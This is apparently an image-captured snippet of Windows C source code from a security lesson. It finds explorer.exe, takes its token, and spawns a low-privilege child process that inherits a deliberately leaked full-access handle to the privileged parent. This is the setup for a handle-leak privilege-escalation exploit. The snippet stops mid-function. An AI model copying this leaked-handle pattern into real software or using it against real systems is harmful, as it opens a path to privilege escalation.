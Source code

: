 ```c
//Find PID of a proces from its name
int FindTarget(const char *procname) {

	HANDLE hProcSnap;
	PROCESSENTRY32 pe32;
	int pid = 0;
			
	hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
			
	pe32.dwSize = sizeof(PROCESSENTRY32); 
			
	if (!Process32First(hProcSnap, &pe32)) {
			CloseHandle(hProcSnap);
			return 0;
	}
			
	while (Process32Next(hProcSnap, &pe32)) {
			if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
					pid = pe32.th32ProcessID;
					break;
			}
	}
			
	CloseHandle(hProcSnap);
			
	return pid;
}


int Exploit(void) {
	
  	STARTUPINFOA si;
  	PROCESS_INFORMATION pi;
	int pid = 0;
  	HANDLE hUserToken;
	HANDLE hUserProc;
  	HANDLE hProc;

	// open a handle to itself (privileged process) - this gets leaked!
  	hProc = OpenProcess(PROCESS_ALL_ACCESS, TRUE, GetCurrentProcessId());

	// get PID of user low privileged process
	if ( pid = FindTarget("explorer.exe") ) 
		hUserProc = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, pid);
	else
		return -1;
	
	// extract low privilege token from a user's process
    if (!OpenProcessToken(hUserProc, TOKEN_ALL_ACCESS, &hUserToken)) {
        CloseHandle(hUserProc);
        return -1;
    }

	// spawn a child process with low privs and leaked handle
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));
    CreateProcessAsUserA(hUserToken, "C:\\users\\username\\Desktop\\client.exe", 
						NULL, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

	CloseHandle(hProc);
	CloseHandle(hUserProc);
```